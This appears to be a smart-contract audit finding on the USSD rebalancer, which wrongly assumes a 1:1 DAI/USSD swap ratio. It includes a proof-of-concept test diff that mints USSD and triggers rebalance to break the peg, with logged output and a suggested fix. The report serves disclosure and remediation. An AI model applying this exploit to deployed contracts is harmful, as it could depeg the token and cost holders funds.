 kutugu

high

# The rebalancing calculation is wrong

## Summary

The rebalancing calculation is wrong. Do not simply assume that DAI and USSD swap ratio is 1:1.         

## Vulnerability Detail

Only `x*y = k` is true in uniswap. Although uniswap3 centralized liquidity and pools are deep, but doesn't mean Stablecoin ratio will always be 1:1.       
In particular, there is the problem of `mintRebalancer`, which anyone can call to distribute unlimited USSD.    
A malicious user can change the number of USSD in the contract to break the rebalancing while `selling`, and the balance cannot be restored after the break.     

```diff
diff --git a/ussd-contracts/test/USSDsimulator.test.js b/ussd-contracts/test/USSDsimulator.test.js
index 7ade265..f3ebcfc 100644
--- a/ussd-contracts/test/USSDsimulator.test.js
+++ b/ussd-contracts/test/USSDsimulator.test.js
@@ -411,8 +411,9 @@ contract('USSD', function (accounts) {
     await this.USSD.approveToRouter(this.USSD.address);
     console.log(`Approved USSD to be traded by router from USSD contract`);
 
+    const actionList = [4, 7, 6, 6, 6];
     // perform simulation with random events
-    for (var t = 0; t < 100; t++) {
+    for (var t = 0; t < actionList.length; t++) {
 
       await time.advanceBlock();
       console.log("------------------------------------------------------------------------------");
@@ -446,7 +447,7 @@ contract('USSD', function (accounts) {
       console.log(`Current USSD collateral factor: ${collateralFactor}`);
 
       console.log("------------------------------------------------------------------------------");
-      const action = Math.floor(Math.random() * 7);
+      const action = actionList[t];
 
       switch(action) {
         case 0:
@@ -542,9 +543,14 @@ contract('USSD', function (accounts) {
               });
               break;
         case 6:
-                console.log("Performing rebalancing");
-                await this.rebalancer.rebalance();
-                break;
+              console.log("\033[34m %s \033[0m", `The ownValuation before rebalance: ${await this.rebalancer.getOwnValuation()}`)
+              await this.rebalancer.rebalance();
+              console.log("\033[34m %s \033[0m", `The ownValuation after rebalance: ${await this.rebalancer.getOwnValuation()}`)
+              break;
+        case 7:
+              console.log("Anyone can mint or send USSD to contract to increase USSD sell amount");
+              await this.USSD.mintRebalancer(web3.utils.toBN('1000000000000'));
+              break;
         }
       }
   });
``` 

As the output below, ownValuation changes:  1020090, 98, 98, 98.  Rebalance not change ownValuation.   
```shell
------------------------------------------------------------------------------
Anyone can mint or send USSD to contract to increase USSD sell amount
------------------------------------------------------------------------------
Block 17305739
USSD DAI collateral: 20000000000000000000000
USSD WETH collateral: 0
USSD WBTC collateral: 0
USSD WBGL collateral: 0
DAI balance of USSD/DAI POOL at 0x668038D7B0B450465B1Ce31cefd0C55d69024d7C: 10099999999999999000001
USSD balance of USSD/DAI POOL is 9901039115
USSD rebalancer price valuation is: 1020090
Current USSD collateral factor: 19607843137254901
------------------------------------------------------------------------------
 The ownValuation before rebalance: 1020090
 The ownValuation after rebalance: 98
------------------------------------------------------------------------------
Block 17305741
USSD DAI collateral: 20000000000000000000001
USSD WETH collateral: 1833276557637236594
USSD WBTC collateral: 12264532
USSD WBGL collateral: 6157434684517697336383
DAI balance of USSD/DAI POOL at 0x668038D7B0B450465B1Ce31cefd0C55d69024d7C: 99108991539669519022
USSD balance of USSD/DAI POOL is 1009999524752
USSD rebalancer price valuation is: 98
Current USSD collateral factor: 28617965354982502
------------------------------------------------------------------------------
 The ownValuation before rebalance: 98
 The ownValuation after rebalance: 98
------------------------------------------------------------------------------
Block 17305743
USSD DAI collateral: 20000000000000000000001
USSD WETH collateral: 1833276557637236594
USSD WBTC collateral: 12264532
USSD WBGL collateral: 6157434684517697336383
DAI balance of USSD/DAI POOL at 0x668038D7B0B450465B1Ce31cefd0C55d69024d7C: 99108991539669519022
USSD balance of USSD/DAI POOL is 1009999524752
USSD rebalancer price valuation is: 98
Current USSD collateral factor: 28617965354982502
------------------------------------------------------------------------------
 The ownValuation before rebalance: 98
 The ownValuation after rebalance: 98 
```

Let's change the parameters, reduce the mintRebalancer amount to 10000000000.    
Output: 1020090, 250138, 1542992, 958818.  Rebalance also not work correctly.   
```shell
------------------------------------------------------------------------------
Anyone can mint or send USSD to contract to increase USSD sell amount
------------------------------------------------------------------------------
Block 17305794
USSD DAI collateral: 20000000000000000000000
USSD WETH collateral: 0
USSD WBTC collateral: 0
USSD WBGL collateral: 0
DAI balance of USSD/DAI POOL at 0x4354Bb5922ff7BeF48406d5C3539d058d89c80Dd: 10100000000000000000000
USSD balance of USSD/DAI POOL is 9901039116
USSD rebalancer price valuation is: 1020089
Current USSD collateral factor: 666666666666666666
------------------------------------------------------------------------------
 The ownValuation before rebalance: 1020089
 The ownValuation after rebalance: 250138
------------------------------------------------------------------------------
Block 17305796
USSD DAI collateral: 20000000000000000000001
USSD WETH collateral: 934643897498720679
USSD WBTC collateral: 6252712
USSD WBGL collateral: 2338810425767038427346
DAI balance of USSD/DAI POOL at 0x4354Bb5922ff7BeF48406d5C3539d058d89c80Dd: 5001431506263432853006
USSD balance of USSD/DAI POOL is 19999524753
USSD rebalancer price valuation is: 250138
Current USSD collateral factor: 812225067319507443
------------------------------------------------------------------------------
 The ownValuation before rebalance: 250138
 The ownValuation after rebalance: 1542992
------------------------------------------------------------------------------
Block 17305798
USSD DAI collateral: 12575943843230000000001
USSD WETH collateral: 934643897498720679
USSD WBTC collateral: 6252712
USSD WBGL collateral: 2338810425767038427346
DAI balance of USSD/DAI POOL at 0x4354Bb5922ff7BeF48406d5C3539d058d89c80Dd: 12425487663033432853006
USSD balance of USSD/DAI POOL is 8055460523
USSD rebalancer price valuation is: 1542992
Current USSD collateral factor: 937660748548776533
------------------------------------------------------------------------------
 The ownValuation before rebalance: 1542992
 The ownValuation after rebalance: 958818
```

## Impact

High. USSD depegged and cannot be recovered by calling rebalancing logic later.   

## Code Snippet

[rebalance](https://github.com/sherlock-audit/2023-05-USSD/blob/main/ussd-contracts/contracts/USSDRebalancer.sol#L92-L107)

```solidity
function rebalance() override public {
    uint256 ownval = getOwnValuation();
    (uint256 USSDamount, uint256 DAIamount) = getSupplyProportion();
    if (ownval < 1e6 - threshold) {
      // peg-down recovery
      BuyUSSDSellCollateral((USSDamount - DAIamount / 1e12)/2);
    } else if (ownval > 1e6 + threshold) {
      // mint and buy collateral
      // never sell too much USSD for DAI so it 'overshoots' (becomes more in quantity than DAI on the pool)
      // otherwise could be arbitraged through mint/redeem
      // the execution difference due to fee should be taken into accounting too
      // take 1% safety margin (estimated as 2 x 0.5% fee)
      IUSSD(USSD).mintRebalancer(((DAIamount / 1e12 - USSDamount)/2) * 99 / 100); // mint ourselves amount till balance recover
      SellUSSDBuyCollateral();
    }
  }
```

## Tool used

Truffle

## Recommendation

Should not assume that the swap ratio between DAI and USSD is 1:1. Use `x * y = k` calculate the real amount of exchange.        
The sell bug should also be fixed by selling a specific amount of USSD, not the balance of all of the contract.      